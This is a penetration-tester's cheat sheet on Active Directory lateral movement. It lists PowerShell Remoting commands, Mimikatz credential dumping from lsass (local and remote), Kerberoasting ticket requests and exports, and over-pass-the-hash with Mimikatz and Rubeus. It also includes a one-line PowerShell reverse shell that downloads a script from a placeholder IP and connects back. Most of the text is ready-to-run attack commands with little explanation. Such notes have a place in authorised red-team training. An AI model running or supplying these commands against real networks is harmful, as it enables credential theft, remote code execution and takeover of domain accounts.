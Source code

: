 # AD - Lateral Movement / Connections

## **Basics**

**PowerShell Remoting**

* Its like psexec on steroids
* Enabled by default on Server 2012 and newer
* May need to enable remoting Enable-PSRemoting (admin privs required) e.g Win10
* You get an elevated shell if admin creds are use - so a lot of UAC Issues are not relevant
* Port 5985/5986 (SSL Encrypted) - is used (based on WinRM)
* One-To-One or One-To-Many (non-interactive, executes parallely)&#x20;
* Credentials are not left on target unless CredSSP/Unconstraned Delegation?
* Runs in process "wsmprovhost" and is stateful

## **Connections / PowerShellRemoting**

**Access C disk of a computer (check local admin)**\
ls \\\\\[hostname]\c$

**Connect to machine with administrator privs**\
****Enter-PSSession -Computername

**Save and use sessions of a machine**\
****$sess = New-PSSession -Computername hostname.local\
Enter-PSSession $sess

No local file be included in Enter-PSSession/New-PSSession

**Execute commands on a machine(s) (non-interactive)**\
Invoke-Command -Computername hostname -Scriptblock {whoami;hostname}\
Invoke-Command -Computername hostname -Scriptblock {$executioncontext.sessionstate.languagemode}\
Invoke-Command -Scriptblock {whoami} -Computername (Get-Content \<list-of-servers-file>)&#x20;

**Execute script on a machine**\
****Invoke-Command -Computername (Get-Content \<list-of-servers-file>) -FilePath  C:\scripty\a.ps1\
❗Invoke-Command -FilePath C:\scripty\a.ps1 -Session $sess\
&#x20;  Enter-PSSession -Session $sess\
&#x20;  functionname\_in\_aps1

**Execute locally loaded function on a list of remote machines**\
Invoke-Command -Scriptblock ${function:test} -Computername (Get-Content \<list\_of\_servers>)\
❗Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz} -Computername (Get-Content \<list\_of\_servers>)

A file/function test.ps1 is creatd and . .\test.ps1 With the content

function test\
{\
&#x20;Write-Output "Test" \
}

then run "test"  => Then we can run Invoke-Command -Scriptblock ${function:test} -Computername a\_host

**Execute locally loaded function on a list of remote machines & passing arguemnts (only positional arguments could be passed)**\
****Invoke-Command -ScriptBlock ${fucntion:getPassHashes} -Hostname a\_host -ArgumentList



Use "Stateful" command using Invoke-Command:\
$sess = New-PSSession -computername host1\
Invoke-Command -session $sess -ScriptBlock {$Proc = Get-Process}\
Invoke-Command -session $sess -ScriptBlock {$Proc.Name}



**Copy script to other server**\
****Copy-Item .\Invoke-MimikatzEx.ps1 \\\hostname\c$\\'Program Files'

**Powershell reverse shell**\
powershell.exe iex (iwr http://xx.xx.xx.xx/Invoke-PowerShellTcp.ps1 -UseBasicParsing);reverse -Reverse -IPAddress xx.xx.xx.xx -Port 4000\
****

## Mimikatz - Invoke-Mimikatz

* Dump credentials, tickets, passing & replaying hashes
* Using the code from ReflectivePEInjection mimikatz is loaded reflectively into memory.
* Administrative Privilege is needed for reading/writing to lsass e.g. dumping creds

**Dump credentials on local/remote machine**\
****Invoke-Mimikatz -DumpCreds   //default parameter\
****Invoke-Mimikatz -DumpCreds -Computername @("host1","host2")    //uses PowerShell remoting cmdlet Invoke-Command (need local admin privs on remote host)

**Write to lsass / "over pass the hash" - generate tokens from hashes (we have the hash for the User specified)**\
****Invoke-Mimikatz -command '"sekurlsa::pth /user:Administrator /domain:dom.local /ntlm:\<ntlmhash> /run:powershell.exe"'

Creates a valid kerberos ticket using the ntlm hash of a user. Authenticate to Kerberos enabled Services afterfwards.

## **🍳Kerberoasting**

### **Description**

### **Attack commands**

**See existing tickets**\
klist

**Remove all tickets**\
****klist purge

**Request a kerberos service ticket for a specific SPN - output Hashcat format**\
****Powerview - **** Request-SPNTicket -SPN "name/target.domain.local" \[-OutputFormat JTR]

**Manually**\
Add-Type -AssemblyName System.IdentityModel\
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "name/target.domain.local"

**Dump the ticket**\
Invoke-Mimikatz -Command '"kerberos::list /export"'

\=> Now Crack

## ⏩Over-Pass the Hash

### Description



### Attack commands

Rubeus.exe asktgt /user:USER < /rc4:HASH | /aes128:HASH | /aes256:HASH> \[/domain:DOMAIN] \[/opsec] /ptt

sekurlsa::pth /user:Administrator /domain:target.domain.local < /ntlm:hash | /aes256:hash> /run:powershell.exe



